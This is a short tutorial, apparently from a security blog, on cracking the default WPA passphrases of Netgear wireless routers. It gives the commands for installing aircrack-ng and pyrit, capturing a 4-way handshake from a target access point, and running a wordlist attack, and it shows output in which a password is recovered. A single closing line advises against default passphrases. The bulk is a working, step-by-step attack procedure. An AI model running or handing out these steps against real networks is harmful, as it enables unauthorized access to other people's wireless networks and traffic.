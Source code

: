 Netgear Wireless Router Default Passphrase Vulnerability

**OS:** Debian 8

A vulnerability exists in the default passphrase for Netgear Wireless Routers. The default passphrase consists of two words, followed by a three digit number (<http://support1.gearguy.com/useruploads/images/19915v3.PNG>):<br>
**word1word2xxx**

To exploit this vulnerability you will need “aircrack-ng”, “pyrit” and the wordlist containing all possible passphrases. Initially, i was going to generate the dictionary using /usr/share/dict/cracklib-small and “crunch”, but the Netgear dictionary is already available for download from ScriptKitty (<http://www.scriptkitty.ca/index.php/wordlists/>).
##Installation of Required Software
Manual step-by-step instructions @ blackMORE Ops (<http://www.blackmoreops.com/2014/03/13/install-nvidia-driver-kernel-module-cuda-and-pyrit-kali-linux/>)
<code>
<div class="code">
<font color="silver">user@debian8:~$</font> <b>sudo apt-get install aircrack-ng</b><br>
<font color="silver">user@debian8:~$</font> <b>sudo apt-get install pyrit</b>
</div>
</code>
##Step 1 – Capturing the Handshake
Plug in your Alfa AWUS036H and capture the 4-way handshake.<br>
Tutorial @ SecurityTube - <http://www.securitytube.net/groups?operation=view&groupId=9>
<code>
<div class="code">
<font color="silver">user@debian8:~$</font> <b>airmon-ng start wlan0</b><br>
<font color="silver">user@debian8:~$</font> <b>airodump-ng mon0</b><br>
<font color="silver">user@debian8:~$</font> <b>airodump-ng -c 1 -w netgear.cap --bssid 00:11:22:33:44:55 mon0</b><br>
</div>
</code>
##Step 2 – Cracking the Capture
Confirm you have useable handshakes, then clean up the capture file and crack the passphrase.<br>
<code>
<div class="code">
<font color="silver">user@debian8:~$</font> <b>pyrit -r netgear.cap analyze</b><br>
<font color="silver">user@debian8:~$</font> <b>pyrit -r netgear.cap -o stripped-netgear.cap strip</b><br>
<font color="silver">user@debian8:~$</font> <b>pyrit -r stripped-netgear.cap -i adjective_noun_3d.txt -b 00:11:22:33:44:55 attack_passthrough</b><br>
<font color="silver">...</font><br>
<font color="silver">.Parsing file 'stripped-netgear.cap' (1/1)...</font><br>
<font color="silver">.Parsed 10 packets (10 802.11-packets), got 1 AP(s)</font><br>
<font color="silver">.Tried 12235614 PMKs so far; 25683 PMKs per second.</font><br>
<font color="silver">.The password is</font> <b>'magicalsquash835'</b><br>
</div>
</code>
##Solution
Never use the default passphrase provided with your router and always use complex passwords that do not follow predictable patterns.

Tags: wifi
